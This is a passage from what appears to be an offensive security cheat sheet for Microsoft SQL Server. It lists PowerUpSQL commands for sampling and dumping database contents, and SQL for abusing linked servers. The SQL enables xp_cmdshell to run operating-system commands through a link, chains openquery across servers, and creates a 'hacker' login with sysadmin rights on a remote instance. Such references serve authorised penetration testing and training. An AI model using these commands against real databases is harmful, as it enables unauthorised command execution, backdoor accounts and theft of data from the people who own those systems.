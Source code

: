 
### Gather 5 Entries from Each Column


```ps1
Get-SQLInstanceDomain | Get-SQLColumnSampleData -Keywords "<columnname1,columnname2,columnname3,columnname4,columnname5>" -Verbose -SampleSize 5
```

### Gather 5 Entries from a Specific Table


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query 'select TOP 5 * from <DatabaseName>.dbo.<TableName>'
```


### Dump common information from server to files

```ps1
Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv
```

## Linked Database

### Find Trusted Link

```sql
select * from master..sysservers
```

### Execute Query Through The Link

```sql
-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

### Crawl Links for Instances in the Domain 
A Valid Link Will Be Identified by the DatabaseLinkName Field in the Results
